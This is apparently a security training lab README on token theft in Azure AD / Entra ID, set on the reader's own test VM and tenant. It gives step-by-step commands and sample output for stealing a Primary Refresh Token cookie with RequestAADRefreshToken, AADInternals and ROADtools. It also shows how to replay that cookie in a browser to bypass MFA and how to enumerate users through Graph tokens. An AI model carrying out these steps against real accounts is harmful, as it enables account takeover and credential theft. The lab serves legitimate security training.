 # Lab 3 - Token Attacks
### Prepare a victim user with high privileges: 
1. RDP and login to the Win11 VM using the "***YOURUSER@boazwassergmail.onmicrosoft.com***" "victim" user that you've created in the previous lab.
2. run ```dsregcmd /status``` and make sure you see ```AzureAdPrt : YES```
    ![prt](prtexists.png)

#
# Attacks
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM 

#
## 1.Steal-the-PRT-Cookie 
Note: This method will bypass MFA only if the user has authenticated using MFA in its Windows (open Edge and sync the profile, go to the windows account settings on Windows and make sure it doesn't need to get verified)

#### Option 1: using RequestAADRefreshToken.exe tool
Use the MicrosoftAccountTokenProvider DLL to request a new PRT cookie:
Run RequestAADRefreshToken.exe from this folder, it will save the output on disk as well as print it to the console
Note: PRT Cookie can only be used once and its TTL is short
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
```
#### Once PRT Cookie is in your possession:
1. Clear your browser cookies and go to https://login.microsoftonline.com/login.srf
2. F12 (Chrome dev tools) -> Application -> Cookies
3. Delete all cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token(JWT) in the `Data` field that RequestAADRefreshToken.exe output
4. Refresh the page (or visit https://login.microsoftonline.com/login.srf again) and you'll be logged it

Reference: https://github.com/leechristensen/RequestAADRefreshToken, https://posts.specterops.io/requesting-azure-ad-request-tokens-on-azure-ad-joined-machines-for-browser-sso-2b0409caad30

#### Option 2: using AADInternals tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:
```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

# if you get "Authorization code not received!" error, then make sure your device is logged in to the user properly(open Edge and sync the profile, go to the windows account settings on Windows and make sure it doesn't need to get verified)
```


### Recon using roadrecon tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:
```powershell
# Get the nonce first
roadrecon auth --prt-init 
    # or 
    roadrecon auth --access-token eyJ0eXA... # AT for msgraph is needed
    # or
    roadrecon auth --prt-cookie <primary-refresh-token> -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2"


# Get a new PRT Cookie
.\ROADtoken.exe <nonce> 

# using the new PRT Cookie, ask for an access token
roadtx browserprtauth --prt-cookie <cookie> -url

# look at the access token
type .roadtools_auth

# bonus: search for the client_id here to see to what it has asked At for: https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

roadrecon gather

roadrecon gui
```

Continue your exploration...

```powershell
$prtToken = Get-AADIntUserPRTToken
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser

# Or via AAD Graph:
$client_id = "1b730954-1685-4b74-9bfd-dac224a7b894" 
$prtToken = Get-AADIntUserPRTToken
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
 Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id, see here for more https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

Get-AzureADUser
```

